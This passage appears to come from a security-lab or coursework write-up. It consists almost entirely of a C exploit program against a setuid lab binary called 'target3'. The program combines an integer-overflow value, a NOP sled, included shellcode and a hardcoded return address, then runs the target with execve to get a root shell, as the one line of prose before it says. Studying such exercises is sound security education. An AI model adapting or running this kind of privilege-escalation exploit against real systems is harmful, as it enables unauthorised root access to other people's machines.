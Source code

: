 Once this has been done, the following code successfully exploits the vulnerability, logging us in as root.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "target3"
#define NOP 0x90
#define MAGIC_NUMBER 241
#define STRING_SIZE 4820
#define BUF_SIZE 4800

#include <math.h>

int main(void)
{
  char *args[3];
  char *env[1];

  args[0] = TARGET;
  args[1] = (char*) malloc(STRING_SIZE * sizeof (char));
  if (args[1] == NULL) {
    fprintf(stderr, "Malloc failed.\n");
    return 1;
  }
  int i = 0;
  char ret_addr[] = "\xd8\xd8\xff\xbf";

  //magic number
  size_t trick_size = ((size_t) pow(2, 31)) + MAGIC_NUMBER;

  //nops
  int n_nops = BUF_SIZE + 4 - strlen(shellcode);
  char* nop_string = (char*) malloc((n_nops + 1) * sizeof (char));
  if (nop_string == NULL) {
    fprintf(stderr, "Malloc failed.\n");
    return 1;
  }
  for (i = 0; i < n_nops; i++) {
    nop_string[i] = NOP;
  }
  nop_string[i] = '\0';

  //getting all together
  sprintf(args[1], "%u,", trick_size);
  strcat(args[1], nop_string);
  strcat(args[1], shellcode);
  strcat(args[1], ret_addr);

  for (i = strlen(args[1]); i < STRING_SIZE; i++)
    args[1][i] = 'A';

  args[2] = NULL;
  env[0] = NULL;

  if (0 > execve(TARGET, args, env))
    fprintf(stderr, "execve failed.\n");

  free(nop_string);
  free(args[1]);
```